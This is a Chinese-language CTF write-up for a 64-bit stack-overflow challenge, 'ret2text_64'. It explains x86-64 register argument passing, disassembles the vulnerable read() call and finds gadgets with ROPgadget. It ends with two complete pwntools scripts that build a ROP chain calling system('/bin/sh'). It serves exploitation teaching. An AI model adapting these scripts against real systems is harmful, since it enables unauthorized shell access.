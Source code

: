 # ret2text_64

- 作者：pn1fg
- 参考：W4terCTF 2023
- 难度：Medium
- 分类：Pwn
- 镜像：[svuctf-helloworld-2023/ret2text64](https://ghcr.io/svuctf/svuctf-helloworld-2023/ret2text64)
- 端口：70

## 题目描述

64位栈溢出

## 题目解析

- 源码：[ret2text_64.c](build/ret2text_64.c)
- 考点：64位下ROP - ret2text

这是`ret2text_32`的升级版，64位程序与32位不同，函数在传参的时候是通过寄存器来传参

64位程序传参：

参数：a，b，c，d，e，f，g，h

- 前 6 个：a->%rdi，b->%rsi，c->%rdx，d->%rcx，e->%r8，f->%r9
- 从第七个开始恢复到 32 位传参方式，从右至左压入栈中

______________________________________________________________________

#### 查看文件信息

查看文件类型：

```shell
>>> file ret2text_64
ret2text_64: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=d76b1f973484a43907334ef6a59bce3bd057b539, for GNU/Linux 3.2.0, not stripped
```

这是一个 64 位的 ELF 文件，动态链接，没有去除符号

查看保护机制：

```shell
>>> checksec --file=ret2text_64
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

这里只打开了 NX 保护

#### 分析漏洞成因

反汇编`vuln`函数：

```c
┌ 112: sym.vuln ();
│           ; var size_t nbyte @ rbp-0x4
│           ; var void *buf @ rbp-0x40
│           0x0040125c      f30f1efa       endbr64
│           0x00401260      55             push rbp
│           0x00401261      4889e5         mov rbp, rsp
│           0x00401264      4883ec40       sub rsp, 0x40
│           0x00401268      488d05711100.  lea rax, str.But_this_time..you_need_to_find_the_point_to_get_it_ ; 0x4023e0 ; "But this time..you need to find the point to get it!"
│           0x0040126f      4889c7         mov rdi, rax                ; const char *s
│           0x00401272      e809feffff     call sym.imp.puts           ; int puts(const char *s)
│           0x00401277      488d05971100.  lea rax, str.Whats_your_age_ ; 0x402415 ; "What's your age?"
│           0x0040127e      4889c7         mov rdi, rax                ; const char *s
│           0x00401281      e8fafdffff     call sym.imp.puts           ; int puts(const char *s)
│           0x00401286      488d45fc       lea rax, [nbyte]
│           0x0040128a      4889c6         mov rsi, rax
│           0x0040128d      488d05921100.  lea rax, [0x00402426]       ; "%d"
│           0x00401294      4889c7         mov rdi, rax                ; const char *format
│           0x00401297      b800000000     mov eax, 0
│           0x0040129c      e81ffeffff     call sym.imp.__isoc99_scanf ; int scanf(const char *format)
│           0x004012a1      488d05811100.  lea rax, str.Now..try_to_overflow_ ; 0x402429 ; "Now..try to overflow!"
│           0x004012a8      4889c7         mov rdi, rax                ; const char *s
│           0x004012ab      e8d0fdffff     call sym.imp.puts           ; int puts(const char *s)
│           0x004012b0      8b55fc         mov edx, dword [nbyte]      ; size_t nbyte
│           0x004012b3      488d45c0       lea rax, [buf]
│           0x004012b7      4889c6         mov rsi, rax                ; void *buf
│           0x004012ba      bf00000000     mov edi, 0                  ; int fildes
│           0x004012bf      b800000000     mov eax, 0
│           0x004012c4      e8d7fdffff     call sym.imp.read           ; ssize_t read(int fildes, void *buf, size_t nbyte)
│           0x004012c9      90             nop
│           0x004012ca      c9             leave
└           0x004012cb      c3             ret
```

本题的漏洞点在`read`函数处，从标准输入，读入大小为 nbyte 的数据存入 buf 数组，buf 的大小 0x40，nbyte 的大小由第一次`scanf`函数接收的为准，所以这题的输入大小由我们决定，可以输入超出 buf 的长度，覆盖 `rbp`的值，造成栈溢出

反编译`b4ckdoor`函数

```c
void sym.b4ckdoor(void)

{
    sym.imp.system("echo hi!");
    return;
}
```

`system`调用`echo`输出 hi ，可惜没有调用`/bin/sh`，这里给大家介绍个工具

ROPgadget，利用这个工具我们可精确的查找到程序中的一些字符串，例如查找`/bin/sh`

- 命令格式：ROPgadget --binary FILE --string "/bin/sh"

```shell
>>> ROPgadget --binary ret2text_64 --string "/bin/sh"
Strings information
============================================================
0x0000000000404050 : /bin/sh
```

上面讲述过64位程序传参需要通过寄存器，刚刚的工具也可以用来寻找寄存器

- 命令格式：ROPgadget --binary FILE --only 'pop|ret'

```shell
>>> ROPgadget --binary ret2text_64 --only 'pop|ret'
Gadgets information
============================================================
0x000000000040119d : pop rbp ; ret
0x000000000040123d : pop rdi ; ret
0x000000000040101a : ret

Unique gadgets found: 3
```

本题我们只需要用到`rdi`

分析到这，本题的大概思路就有了，首先溢出，因为没有后门函数，所以需要我们手动在栈上构造 ROP 链调用`system`执行`/bin/sh`从而拿到 shell。

#### 编写利用程序

这里我们提供两种写法供同学们研究，第一种是比较正规的做法，第二种是懒人做法

[exp.py](writeup/exp.py) :

```python
from pwn import *

context.arch = 'amd64'
context.log_level = "debug"

io = process("./ret2text_64")
elf = ELF("./ret2text_64")

pop_rdi_ret = 0x0040123d
bin_sh = 0x00404050
ret = 0x0040101a

io.sendlineafter(b"age?\n", b"1000")

payload = flat([
    cyclic(0x40 + 8),
    pop_rdi_ret,
    bin_sh,
    ret,
    elf.sym["system"]
])
io.sendlineafter(b"overflow!\n", payload)

io.interactive()
```

[exp2.py](writeup/exp2.py) :

```python
from pwn import *

context.arch = "amd64"
context.log_level = "debug"

io = process("./ret2text_64")
elf = ELF("./ret2text_64")
rop = ROP(elf)

io.sendlineafter(b"age?\n", b"1000")

padding = cyclic(0x40 + 8)
bin_sh = next(elf.search(b"/bin/sh"))
ret = rop.find_gadget(["ret"])

rop.raw(padding)
rop.raw(ret)
rop.call(elf.sym["system"], [bin_sh])
payload = rop.chain()

io.sendlineafter(b"overflow!\n", payload)

io.interactive()
```
